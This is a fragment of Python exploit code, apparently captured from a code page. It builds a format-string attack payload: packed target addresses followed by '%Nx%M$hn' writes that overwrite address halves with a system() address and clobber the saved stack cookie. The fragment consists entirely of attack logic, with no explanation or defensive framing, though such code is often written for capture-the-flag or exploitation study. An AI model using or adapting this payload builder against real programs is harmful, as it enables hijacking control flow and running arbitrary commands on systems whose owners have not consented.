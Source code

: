 ```python
    if (main_lsb < system_msb):
      # write main_lsb next
      adr[1] = (dst_addr_1)
      val[1] = (main_lsb - system_lsb)

      adr[2] = (dst_addr_2 + 2)
      val[2] = (system_msb - main_lsb)
    else:
      # write system_msb next
      adr[1] = (dst_addr_2 + 2)
      val[1] = (system_msb - system_lsb)

      adr[2] = (dst_addr_1)
      val[2] = (main_lsb - system_msb)

  # system_msb is smallest
  elif ((system_msb < main_lsb) and (system_msb < system_lsb)):
    # write system_msb first
    adr[0] = (dst_addr_2 + 2)
    val[0] = (system_msb - already_written)

    if (main_lsb < system_lsb):
      # write main_lsb next
      adr[1] = (dst_addr_1)
      val[1] = (main_lsb - system_msb)

      adr[2] = (dst_addr_2)
      val[2] = (system_lsb - main_lsb)
    else:
      # write system_lsb next
      adr[1] = (dst_addr_2)
      val[1] = (system_lsb - system_msb)

      adr[2] = (dst_addr_1)
      val[2] = (main_lsb - system_lsb)

  # Set up clobbering of saved stack cookie
  adr[3] = stackcookie_addr

  if ((val[2] & 0xFF) != 0):
    if ((val[2] & 0xFF) == 0xFF):
      val[3] = 2
    else:
      val[3] = 1
  else:
    val[3] = 1
  return pack('<I', adr[0]) + pack('<I', adr[1]) + pack('<I', adr[2]) + pack('<I', adr[3]) + chr(0x25) + str(val[0]) + 'x' + chr(0x25) + str(offset[0]) + '$hn'  + chr(0x25) + str(val[1]) + 'x' + chr(0x25) + str(offset[1]) + '$hn'  + chr(0x25) + str(val[2]) + 'x' + chr(0x25) + str(offset[2]) + '$hn' + chr(0x25) + str(offset[3]) + '$hn'
```
